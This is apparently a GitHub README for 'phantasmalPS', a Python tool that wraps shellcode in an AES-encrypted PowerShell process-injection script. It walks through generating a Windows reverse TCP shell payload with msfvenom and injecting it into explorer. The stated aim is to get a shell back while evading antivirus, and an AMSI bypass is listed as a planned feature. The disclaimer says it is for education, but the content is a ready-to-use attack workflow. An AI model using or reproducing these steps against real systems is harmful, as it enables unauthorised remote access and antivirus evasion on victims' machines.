 # phantasmalPS
This Python script generates a PowerShell Process Injection script with AES encrypted shellcode.

## Disclaimer
This repository is for educational purposes only. Do not use on computers, servers or endpoints without authorization. I am not responsible for any damages you may cause. Use it at your own discretion.



## Simple Usage:
Let's start with installing the required libraries:
```python
pip3 install -r requirements.txt
```
```bash
python3 phantasmalPS.py -h
```
![Help](Images/phantasmalPS-help.png)

First generate a shellcode within your favorite C2 framework:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport 8443 -f ps1 -o shell
```
Let phantasmalPS do its magic:
```bash
python3 phantasmalPS.py -f shell -p explorer
```
![Run](Images/run-phantasmalPS.png)

It generates a PowerShell file called "simplescript.ps1" n the same directory you downloaded phantasmalPS.py:
```bash
ls -l simplescript.ps1
```
![Attack](Images/file-check.png)

Now, transfer the PowerShell script to a Windows machine and get a shell back:

![Reverse Shell](Images/AV-evasion.png)

Thank you

## To-Do
- Add Amsi bypass
- Add more injection techniques
- Add more payload encryption techniques
